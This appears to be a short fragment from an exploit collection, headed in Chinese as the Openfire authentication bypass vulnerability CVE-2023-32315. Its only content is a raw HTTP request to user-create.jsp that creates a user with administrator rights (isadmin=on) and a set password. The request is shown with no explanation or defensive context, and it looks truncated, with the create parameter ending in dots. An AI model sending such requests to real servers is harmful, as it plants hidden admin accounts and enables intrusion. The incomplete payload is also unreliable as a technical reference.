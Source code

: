 ## Openfire身份认证绕过漏洞(CVE-2023-32315)
```
GET /user-create.jsp?csrf=Sio3WOA89y2L9Rl&username=user1&name=&email=&password=Qwer1234&passwordConfirm=Qwer1234&isadmin=on&create=............ HTTP/1.1

```
